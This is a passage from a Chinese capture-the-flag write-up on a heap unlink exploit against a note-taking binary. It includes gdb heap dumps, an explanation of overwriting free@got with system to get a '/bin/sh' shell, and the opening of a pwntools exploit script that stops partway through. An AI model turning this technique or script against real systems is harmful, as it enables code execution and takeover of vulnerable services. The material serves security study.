 {% highlight bash %}
gdb-peda$ p main_arena 
$15 = {
  mutex = 0x0, 
  flags = 0x1, 
  fastbinsY = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}, 
  top = 0x604bd0, 
  last_remainder = 0x0, 
  bins = {0x604830, 0x604830, 0x7ffff7dd67c8 <main_arena+104>, ...
gdb-peda$ x/4x 0x604830
0x604830:       0x0000000000000000      0x0000000000000231
0x604840:       0x00007ffff7dd67b8      0x00007ffff7dd67b8
{% endhighlight %}

在`unlink`过程中，我们把在heap上的之前存note0字符串地址的地方改了：

{% highlight bash %}
gdb-peda$ x/gx 0x603030
0x603030:       0x0000000000603018
{% endhighlight %}

于是接下来，我们如果修改note0，就相当于修改了那个所有note结构数组，即可以将note0的字符串地址改为`free@got`。由此，我们就可以通过读、写note的内容，做到读、写`free@got`。最后是这样将`free@got`改为`system`，那么在删除note2的时候，就发生了`system("/bin/sh")`。


下面是最后的代码

{% highlight python %}
#!/usr/bin/env python2

from pwn import *  #pip install pwntools

r = remote('127.0.0.1', 9990)

f = open("payload", "wb")

def newnote(x):
    r.recvuntil('Your choice: ')
    r.send('2\n')
    f.write('2\n')
    r.recvuntil('Length of new note: ')
    r.send(str(len(x)) + '\n')
    f.write(str(len(x)) + '\n')
    r.recvuntil('Enter your note: ')
    r.send(x)
    f.write(x)

def delnote(x):
    r.recvuntil('Your choice: ')
    r.send('4\n')
    f.write('4\n')
    r.recvuntil('Note number: ')
    r.send(str(x) + '\n')
    f.write(str(x) + '\n')

def getnote(x):
    r.recvuntil('Your choice: ')
    r.send('1\n')
    f.write('1\n')
    r.recvuntil('%d. ' % x)
    return r.recvline(keepends=False)

def editnote(x, s):
    r.recvuntil('Your choice: ')
    r.send('3\n')
    f.write('3\n')
    r.recvuntil('Note number: ')
    r.send(str(x) + '\n')
    f.write(str(x) + '\n')